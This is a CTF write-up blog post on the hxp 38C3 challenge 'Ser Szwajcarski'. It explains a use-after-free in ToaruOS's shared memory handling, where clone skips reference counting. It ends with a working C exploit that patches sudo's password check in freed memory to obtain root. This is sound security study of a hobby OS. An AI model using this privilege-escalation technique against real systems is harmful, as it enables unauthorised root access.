 ```yaml
---
title: "hxp 38C3 CTF: Ser Szwajcarski 🧀"
date: 2025-02-26T17:48:11-05:00
type: posts
tags: ["Binary Exploitation", "CTF"]
build:
    list: 'never'
---
```


Ser Szwajcarski 🧀 was a challenge in [hxp 38C3 CTF](https://2024.ctf.link/),
which I "took part" in with my good friend [Krishna](https://krsh732.github.io/)
under the team name "frfrmode". Krishna did not have time to look at this one
while the CTF was live, but he also solved it afterward and wrote about it
[here](https://krsh732.github.io/p/hxp-38c3-ctf-ser-szwajcarski/).

The goal was to find and exploit a zero- or n-day vulnerability in
[ToaruOS](https://toaruos.org/). ToaruOS is a hobby operating system and is
intended as an educational resource rather than a fully-fledged OS for everyday
use, so security is not a primary consideration and there are plenty of
vulnerabilities to be found. On top of that, the version in use, 2.2.0, was
already over a year old at the time. For these reasons the challenge was in the
"baby" category with an estimated difficulty of easy. Despite that, it's a
really cool OS and the challenge was a lot of fun, so I'm writing about it
anyway.

During the competition I looked over the commit history and found
[this bug fix](https://github.com/klange/toaruos/commit/60bd809a401cea54d6aa7b8f8050cf88318d4971).
Prior to this commit, a normal user could read and write to arbitrary kernel
memory via the `send` and `recv` syscalls. Turning this into root privileges is
straightforward and is not the focus of this post. Instead, I want to look at a
new bug I found in the shared memory subsystem after the competition was over.

## Shared Memory

In ToaruOS, each thread of execution is represented by a
[`process_t`](https://github.com/klange/toaruos/blob/911daaad555e8872a99687121d84197803d9a16c/base/usr/include/kernel/process.h#L95-L165)
structure. Note that this differs from the usual meaning of the term; a process
is typically thought of as something that can contain one or more threads, but
in ToaruOS each "thread" in the traditional sense is a process of its own. The
relevant fields are shown below.

```c
typedef struct process {
    ...
    list_t * shm_mappings;
    ...
    thread_t thread;
    ...
} process_t;
```

The `thread` field, of type
[thread_t](https://github.com/klange/toaruos/blob/911daaad555e8872a99687121d84197803d9a16c/base/usr/include/kernel/process.h#L52-L56),
contains the information needed to update the state of the CPU to begin or
continue executing this process. This includes the values of the registers and
the root of the page tables that determine the process's virtual memory layout.

```c
typedef struct thread {
    ...
    page_directory_t * page_directory;
} thread_t;
```

Multiple processes can opt to share regions of memory. When this happens, each
process has some part of its virtual address space mapped to an underlying
region of physical memory that is also mapped by the other processes. The
`shm_mappings` field of `process_t` holds a list of such shared memory mappings.

To manage shared memory the kernel maintains a tree resembling a heirarchical
file system. Each node in this tree has a name, and each leaf node points to a
"chunk" of type
[`shm_chunk_t`](https://github.com/klange/toaruos/blob/911daaad555e8872a99687121d84197803d9a16c/base/usr/include/kernel/shm.h#L12-L18),
a reference counted structure that keeps track of a range of shared physical
memory.

```c
typedef struct {
    struct shm_node * parent;
    volatile uint8_t lock;
    ssize_t ref_count;
    size_t num_frames;
    uintptr_t *frames;
} shm_chunk_t;

typedef struct shm_node {
    char name[256];
    shm_chunk_t * chunk;
} shm_node_t;
```

A process can request a shared memory region by passing a path through this tree
to the
[`shm_obtain`](https://github.com/klange/toaruos/blob/911daaad555e8872a99687121d84197803d9a16c/kernel/sys/shm.c#L236-L274)
syscall in a form similar to a file path. After ensuring a chunk exists at this
path by allocating a new one if needed, the chunk is mapped into the calling
process and added to its `shm_mappings` list.

When a process exits,
[`shm_release_all`](https://github.com/klange/toaruos/blob/911daaad555e8872a99687121d84197803d9a16c/kernel/sys/shm.c#L325-L344)
iterates over its `shm_mappings` and calls
[`release_chunk`](https://github.com/klange/toaruos/blob/911daaad555e8872a99687121d84197803d9a16c/kernel/sys/shm.c#L122-L147)
on each chunk, where the chunk's reference count is decremented. If it reaches
zero, the physical memory backing the chunk is freed.

## Evil Clone

The
[clone](https://github.com/klange/toaruos/blob/911daaad555e8872a99687121d84197803d9a16c/kernel/sys/process.c#L1339-L1389)
syscall creates a new process via
[spawn_process](https://github.com/klange/toaruos/blob/911daaad555e8872a99687121d84197803d9a16c/kernel/sys/shm.c#L122-L147)
with the same virtual address space as its parent, including any shared
mappings. However, the shared mappings are not added to the new process's
`shm_mappings` list and the reference counts of the corresponding chunks are not
increased.

```c
pid_t clone(uintptr_t new_stack, uintptr_t thread_func, uintptr_t arg) {
    ...
    process_t * new_proc = spawn_process(this_core->current_process, 1);
    new_proc->thread.page_directory = this_core->current_process->thread.page_directory;
    ...
}

process_t * spawn_process(volatile process_t * parent, int flags) {
    ...
    proc->shm_mappings = list_create("process shm mappings",proc);
    ...
}
```

To see why this is a problem, suppose a process that is the only user of some
shared memory chunk calls `clone`.

![](1.png)

When the process exits, the last known reference to the chunk is gone and so it
is freed, even though the underlying physical memory is still accessible from
the cloned process.

![](2.png)

Now if something else (a privileged process, for example) makes use of that
freed memory, the cloned process is able to corrupt it.

![](3.png)

## Exploitation

Exploiting this bug is fairly simple: allocate some shared memory, call `clone`,
and exit the parent process while the child scans through the freed memory
waiting for something sensitive to reuse it. I chose to patch the password check
of `sudo` to always succeed.

```c
#include <pthread.h>
#include <stdint.h>
#include <string.h>
#include <sys/shm.h>

uint8_t *shm;
size_t size = 0x1000000;

void *routine(void *arg) {
  (void)arg;

  for (;;) {
    for (size_t offset = 0; offset < size; offset += 0x1000) {
      uint8_t *page = shm + offset;
      if (memcmp(page + 0x1c9, "\xe8\x22\xfa\xff\xff", 5) == 0) {
        memcpy(page + 0x1c9, "\x90\x90\x90\x90\x90", 5);
      }
    }
  }

  return NULL;
}

int main(void) {
  shm = shm_obtain("asdf", &size);
  memset(shm, 0, size);

  pthread_t thread;
  pthread_create(&thread, NULL, routine, NULL);

  return 0;
}
```

And the result:

![](root.svg)
